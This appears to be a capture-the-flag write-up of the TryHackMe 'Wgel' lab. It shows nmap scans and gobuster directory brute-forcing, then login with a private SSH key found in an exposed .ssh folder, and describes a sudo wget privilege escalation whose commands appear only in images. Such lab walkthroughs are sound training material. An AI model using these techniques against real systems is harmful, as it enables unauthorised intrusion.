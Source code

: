
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-1.png)
I found a ssh folder which containes a ssh key which i used to login via ssh, annd finally i take advantage of the sudo rights on the wget command.

Nmap scan
```text
nmap -sS -T 4 -p- 10.10.144.149
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 04:55 EDT
Nmap scan report for 10.10.122.219
Host is up (0.068s latency).
Not shown: 65136 closed ports, 397 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

The detailed scan
```text
nmap -sV -sC  -T 4 -p22,80 10.10.144.149
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 04:59 EDT
Nmap scan report for 10.10.122.219
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port 80 is this ubuntu's default page.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-2.png)

The source has this comment with an username which will be useful in the future.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-3.png)

I got stuck, so i wil bruteforce directories.

```text
 gobuster dir -u http://10.10.144.149 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.144.149
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/03 05:30:48 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/sitemap (Status: 301)
```


The sitemap is a basic template, but it may hold other interesting files.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-4.png)


The .ssh folder seems promising.
```text
 gobuster dir -u http://10.10.144.149/sitemap/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.144.149/sitemap/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/03 05:41:55 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.ssh (Status: 301)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
```

Here is the rsa key that would be useful when login via ssh.
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-5.png)

To login via ssh using a private key, the permissions of the file needs to be set.
```text
chmod 600 id_rsa
```
ssh -i id_rsa jessie@10.10.144.149

![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-6.png)

After a bit of searching i found the user flag in the Documents folder.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-7.png)

Let's see what sudo rights has jessie.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-8.png)

This privesc is a bit different from what i am used to, but it was welcomed as i learned something new.First, start a listener on port 80 and redirect any output to a file.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-9.png)

Second use the command below.  
![alt_text](https://github.com/Alex-Stinga/TryHackMe/blob/master/ctf_like/Wgel/images/79-10.png)

Lastly, read the flag.  

#### Referrences
https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/
